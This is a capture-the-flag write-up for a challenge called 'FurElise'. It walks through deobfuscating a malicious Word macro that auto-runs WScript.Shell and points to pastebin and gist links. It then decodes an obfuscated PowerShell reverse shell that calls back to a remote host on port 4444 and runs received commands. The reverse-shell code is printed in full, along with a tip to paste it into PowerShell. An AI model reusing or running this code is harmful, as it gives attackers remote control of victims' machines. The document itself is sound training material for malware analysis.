 # FurElise

## Solution

The challenge requires us to download a zip file containing a text file ```heartbroken.txt```. The file contains some Powershell commands along with many lines of 'FurElise'.
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
                 [REDACTED]
```
To remove the unnecessary lines, we can use ```uniq``` command in Linux rather than manually removing the ```FurElise```. The output will be stored in ```new.txt```
```
cat heartbroken.txt | uniq > new.txt
```
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	Replace(luY2lkZW50IG,"&","")
	Replace(luZyB0aGF0IG,"&","")
	Replace(VsZCBkZWNvZG,"&","")
	Replace(N0b3JzLCBjb3,"&","")
```
However, we can see that & makes the command hard to understand. So, we need to remove & from the text file.
```
cat new.txt | sed 's/&//g'
```

```
Sub Document_Open()
        Set dCBkaW1pbm = CreateObject("WScript.Shell")
        pbmcgYXQgY3Jvc = "https://"
        CBtYXR0ZXJucy = "pastebin.com"
        4gb3ZlciB3ZSB = "/raw/Kh4VyUYc"
        ''''''FürElise''''''FürElise
        Replace(luY2lkZW50IG,"","")
        Replace(luZyB0aGF0IG,"","")
        Replace(VsZCBkZWNvZG,"","")
        Replace(N0b3JzLCBjb3,"","")
        Replace(BkZWZpbmVkIH,"","")
        Replace(4gY29tcGxleC,"","")
        Replace(pbmcgYXQgY3Jvc,"","")
        Replace(CBtYXR0ZXJucy,"","")
        Replace(4gb3ZlciB3ZSB,"","")
        dCBkaW1pbm.Exec("whoami")
        ''''''FürElise''''''FürElise
        luY2lkZW50IG = “https://gist.githubusercontent.com/zachwong02”
        luZyB0aGF0IG = “/5a8e7d365c6d9b649b12be3c890c8cb4”
        VsZCBkZWNvZG = “/raw”
        N0b3JzLCBjb3 = “/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9”
        BkZWZpbmVkIH = “/gistfile1”
```

Now, we can clearly see two links that we can access. 
https://pastebin.com/raw/Kh4VyUYc and https://gist.githubusercontent.com/zachwong02/5a8e7d365c6d9b649b12be3c890c8cb4/raw/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9/gistfile1.txt

### Flag 1/2
From the first link we get the first part of the flag
```
ABOH23{d!ff1cU17_s0Ng
```

From the second link, we get encrypted lines that also mention Powershell. By using CyberChef, we can conclude that it is Base64 encode. You can also copy the encrypted lines and use Base64 decode command in Linux.
```
cat flag2.txt | base64 -d
```

```
if (-not(&($([char](99+84-99)+[char](67*101/67)+[char](0+115-0)+[char](0+116-0)+[char](16+45-16)+[char](114+80-114)+[char](96*97/96)+[char](0+116-0)+[char](0+104-0))) -Path ($('$'+'e'+'n'+'v'+':'+'U'+'S'+'E'+'R'+'P'+'R'+'O'+'F'+'I'+'L'+'E') + ([string]::join('', ( (92,68,101,115,107,116,111,112,92,77,117,115,105,99) |%{ ( [char][int] $_)})) | % {$_})) -PathType (([string]::join('', ( (76,101,97,102) |%{ ( [char][int] $_)})) | % {$_})))){
        & (("jDkavXf-p98OYShtMg4A2cN5xPIHeF1zyElTnwZmRbLKQGisJC0UWoBVduqr637")[37,59,46,15,28,7,14,53,47,15] -join '') (('d'+'o'+'n'+'t'+' '+'e'+'x'+'e'+'c'+'u'+'t'+'e'+' '+'t'+'h'+'e'+' '+'s'+'c'+'r'+'i'+'p'+'t'+'.'+'.'+'.'+' '+'a'+'m'+'a'+'t'+'e'+'u'+'r'+' '+'m'+'o'+'m'+'e'+'n'+'t'+'.'+'.'+'.'))
        return
}
$LHOST = $([char](36*36/36)+[char](76+40-76)+[char](0+49-0)+[char](27*43/27)+[char](0+49-0)+[char](27*43/27)+[char](86+48-86)+[char](0+45-0)+[char](0+49-0)+[char](0+41-0)+[char](0+99-0)+[char](98+97-98)+[char](52+116-52)+[char](7*101/7)+[char](0+62-0)+[char](0+57-0)+[char](0+50-0)+[char](0+46-0)+[char](43*49/43)+[char](0+54-0)+[char](116+56-116)+[char](37*46/37)+[char](86*50/86)+[char](94*50/94)+[char](0+49-0)+[char](76+46-76)+[char](0+49-0)+[char](74+52-74)+[char](96*56/96));
$LPORT = ($(4444));
$TCPClient = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) Net.Sockets.TCPClient($LHOST, $LPORT);
$NetworkStream = $TCPClient.GetStream();
$StreamReader = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamReader($NetworkStream);
$StreamWriter = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamWriter($NetworkStream);
$StreamWriter.AutoFlush = $true;
$Buffer = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) System.Byte[] $($(1024));
while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length);
$c2 = $([char](27*104/27)+[char](60+116-60)+[char](57*116/57)+[char](67*112/67)+[char](18+115-18)+[char](28+58-28)+[char](76*47/76)+[char](50*47/50)+[char](83*112/83)+[char](89*97/89)+[char](0+115-0)+[char](23*116/23)+[char](7*101/7)+[char](78+98-78)+[char](76*105/76)+[char](86+110-86)+[char](0+46-0)+[char](86*99/86)+[char](52*111/52)+[char](100+109-100)+[char](10*47/10)+[char](0+114-0)+[char](94+97-94)+[char](95+119-95)+[char](25*47/25)+[char](0+74-0)+[char](59*67/59)+[char](31+103-31)+[char](0+76-0)+[char](56+122-56)+[char](57+52-57)+[char](0+102-0)+[char](40*49/40));
$Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) };
if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { & ([string]::join('', ( (73,110,118,111,107,101,45,69,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_}) ($Code) 2>&1 } catch { $_ };
$StreamWriter.Write($(($('$'+'O'+'u'+'t'+'p'+'u'+'t'+'`'+'n'))));
$Code = $null } };
$TCPClient.Close();
$NetworkStream.Close();
$StreamReader.Close();
```
By pasting the command inside Powershell, we can know the value of each variable. Variable ```c2 ``` contains the link for second flag

https://pastebin.com/raw/JCgLz4f1

### Flag 2/2
```
_FROm_hEaRtBrE4K}
```

### Complete Flag
The flag for this challenge is ```ABOH23{d!ff1cU17_s0Ng_FROm_hEaRtBrE4K}```
